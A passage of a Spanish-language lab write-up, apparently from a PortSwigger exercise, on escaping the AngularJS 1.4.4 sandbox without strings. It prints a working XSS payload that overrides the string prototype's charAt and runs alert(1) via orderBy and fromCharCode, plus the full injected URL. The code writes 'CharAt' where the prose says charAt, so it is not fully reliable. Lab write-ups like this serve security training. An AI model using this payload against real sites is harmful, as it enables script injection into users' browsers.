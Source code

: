 El enfoque consiste en usar funciones nativas de JavaScript para construir cadenas de forma indirecta. Aprovechamos el método ‘**toString()**‘ y la propiedad ‘**constructor**‘ para acceder al prototipo de los objetos y redefinir cómo se comportan. En concreto, se sobrescribe el método ‘**charAt**‘ del prototipo de las cadenas, lo que permite eludir el sistema de seguridad interno de AngularJS.

Luego pasamos una expresión al filtro ‘**orderBy**‘, y generamos el código deseado utilizando ‘**fromCharCode**‘ con los valores numéricos correspondientes a los caracteres de la cadena ‘**x=alert(1)**‘. Como hemos alterado el comportamiento interno de las cadenas, AngularJS permite que esta expresión se ejecute donde normalmente estaría bloqueada.

Este laboratorio demuestra cómo es posible romper entornos supuestamente seguros mediante manipulación de bajo nivel, sin depender de comillas o funciones evaluadoras explícitas

-----


AngularJs hacia uso de sandbox, las cuales se pueden ver reprentadas en esta forma:

{{ user.name }} -> Esto se podia interpretar con HTML

Si queremos ver la version de AngularJs desde la consola del navegador, podemos hacer lo siguiente

angular.version.full

Podemos hacer uso del Cheat Sheet de Portswigger y filtrar por la version "1.4.4 without strings"

Que es un controlador de AngularJs

```javascript
$scope -> objeto especial que actua como puente entre la vista/controlador
$parse -> servicio que interpeta expresiones AngularJs user.name
```

Si agregamos en la URL un nuevo parametro con su valor, este sera visto desde el script de la pagina

http://burpsuite.com/?search=proband&prueba=1

Entonces nos podemos aprovechar del segundo parametro para efectuar una operacion

http://burpsuite.com/?search=proband&2+2=1   (Ponemos el + urlencodeado)

Entonces pegamos el siguiente codigo en la seccion de la operatoria anterior

```javascript
toString().constructor.prototype.CharAt=[].join;
[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
``` 

De la siguiente forma:

http://burpsuite.com/?search=proband&toString().constructor.prototype.CharAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1

Y quedaria resuelto el problema